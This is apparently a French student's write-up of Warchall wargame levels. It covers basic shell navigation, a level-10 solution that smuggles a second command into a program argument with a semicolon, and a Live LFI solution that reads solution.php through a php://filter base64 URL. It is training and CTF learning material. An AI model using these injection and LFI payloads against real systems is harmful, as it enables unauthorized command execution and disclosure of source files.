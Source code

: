 # EXAMEN-SYS1-WARCHALL-STD23044
## Training: Warchall - The Beginning 

1. **Level 0 :**
    - Direction : `cd /home/level/00_welcome`
    - Commande : `cat`
  
2. **Level 1 :**
    - Direction : `cd /home/level/01_choice_tree`
    - Actions :
        - Regarder dans les dossiers : `ls -R`
        - Aller à : `cd ./blue/hats/grey/solution/patience`
        - Voir le mot de passe : `cat SOLUTION.txt`

3. **Level 2 :**
    - Direction : `cd /home/level/02/.porb`
    - Commande : `cat .solution`

4. **Level 3 :**
    - Direction : `cd /home/level/03`
    - Options :
        - Ouvrir `.bash_history` ou aller à `.shared`
    - Commande : `cat .bash_history`

5. **Level 4 :**
    - Direction : `cd /home/level/04_kwisatz`
    - Instructions du README dans le directory est d' aller dans le répertoire personnel : `cd ~`
    - Actions :
        - Explorer : `ls -R`
        - Modifier les permissions : `chmod 700 README2.md`
        - Ouvrir le fichier : `cat README2.md`

6. **Level 5 :**
    - Direction : `cd /home/level/05_privacy`
    - Actions :
        - Voir le contenu : `ls -al`
        - Ouvrir le README : `cat README`


## Choose your Path [level10]:
**1-demarche :**
  - Direction : `cd /home/level/10_Choose_your_Path`
    
  - Actions : 
      - voir le contenu : `ls -al`
      - Excecution du fichiers : `./charp  "solution.txt; cat solution.txt > ~/solutionPath1.txt` 
      - On a changé de directory : `cd ~` (allé dans notre repertoire personnelle pour voir les contenus transferer
      - voir le contenu : `ls`
      - affichier le contenus du fichiers solutionPath1.txt que nous avons créé : `cat solutionPath1.txt`

**2-explication :**  
  - constation : on a put constaté que `charp` est un fichier de qui contient des textes avec des symboles,
    c'est à dire des commandes  qui permet de compter les lignes, telles que wc (comptage de mots, de lignes, etc. dans un fichier).

  - details sur `./charp "solution.txt; cat solution.txt > ~/solutionPath1.txt` :
      - `./charp` : l'exécution du script "charp" dans le répertoire actuel. Le point "." représente le répertoire actuel,
        et "charp" est le nom du programme ou script à exécuter.
        
      - `"solution.txt; cat solution.txt > ~/solutionPath1.txt"`: C'est l'argument passé au programme `charp`. Il y a deux commandes ici séparées par le point-virgule `;`,
        car d'apres ce que nous avons vu dans le code source du level dans l'enonncé du challenge à sa page, la fonction contenait 2 argument que nous allons fournir.
        Et la logique qui nous avons eu en tete pour faire sortir notre solution a ete de cette manière (la methode dans j'ai utilisé)
        - `solution.txt`: Il s'agit du premier morceau de la commande. Une entrée pour le programme `charp`.
        - `cat solution.txt > ~/solutionPath1.txt` : C'est le deuxième morceau de la commande.
        Cela utilise la commande `cat` pour afficher le contenu du fichier `solution.txt`et
        le redirige ``>`` vers un nouveau fichier appelé `solutionPath1.txt` dans notre répertoire personnel `~`.

        
## Warchall : Live LFI & RFI [level 14 & 15]
  **I-Demarche :**
  - (1) Ouvrir le lien de la page du challenge en appuiant sur ` Live LFI ` mentionner dans l'énonncer [URL:`https://lfi.warchall.net/`]
  - (2) Une fois sur la page `cliquer` sur le drapeau `Anglais(UK)`
  - (3) L'URL de la page a changé en : `https://lfi.warchall.net/index.php?lang=en`

  - (4) avec une tentative d'injerctions de fichier locaux(LFI), et des notions de php filter, en s'y est pris directement comme suite pour : (modifiant l'URL)
      - `URL : https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php`
      **details :**
      - `https://lfi.warchall.net/index.php?lang=` : C'est la base de l'URL.
      - `php://filter/convert.base64-encode/resource=` : C'est la partie vulnérable de l'URL. Tentative d'exploitation d'une LFI en utilisant le protocole `php://filter`
        pour appliquer une "conversion Base64" à la ressource spécifiée. 
      - `filter/convert.base64-encode/resource=` : Utilisation de la fonction de filtre PHP pour convertir le contenu du ressource en Base64.
      - `solution.php` : C'est le fichier ciblé de notre attaque LFI.

  - (5) Obtention du code base64 : `PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOy.......`

  - (6) Decodage du code par un decodeur base64 en ligne : 
      **Actions :**
      - copie du code
      - collage du code dans le prompt du decodeur
      - decode
      - obtention de la "solution" en code html avec une petite section de php

  **II-Notion approfondie :**
  - (1) php filter avec LFI
  - (2) code base64
  - (3) decodage base64

